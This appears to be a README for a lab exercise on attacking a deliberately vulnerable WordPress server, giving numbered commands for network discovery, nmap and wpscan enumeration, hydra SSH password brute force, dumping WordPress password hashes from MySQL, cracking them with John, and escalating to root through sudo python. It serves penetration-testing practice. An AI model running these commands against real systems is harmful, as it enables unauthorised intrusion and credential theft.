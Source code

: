 # Attacking_and_Defending_Vulnerable_Wordpress_Server
Attacking the Vulnerable WordPress Server: https://docs.google.com/document/d/1f0LfeQLo749A6ygmD9_ndWd_RgZ1HvEIOdybD5gvMnQ/edit?usp=sharing
1. Using netdiscover to find IP Address
2. Using nmap -p- -sV 192.168.1.110 to show that SSH is open on the WordPress Server
3. Using wpscan --url 192.168.1.110/wordpress --enumerate u - to show the 2 users from the wpscan
4. Using hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4 to show the password for michael
5. Using ssh michael@192.168.1.110 to get into the machine
6. Searching until you find the service.html file
7. Cat Service.html - flag1
8. Using find -type f -iname 'flag*' 2>dev/null
9. cd to ./var/www | cat flag2.txt
10. Getting into the MySQL database:
11. mysql -h localhost -u root -p
12. Using show databases
13. Then use wordpress
14. Typing select user_login, user_pass from wp_users to find the user password hashes
15. Copying password hashes into a txt file 
16. Using John against that txt file to find the other user's password
17. ssh into steven@192.168.1.110
18. Then, typing sudo -l to see what can be ran with root priviliges
19. Python can be ran as sudo
20. Using sudo python -c 'import pty;pty.spawn(*/bin/bash*);'
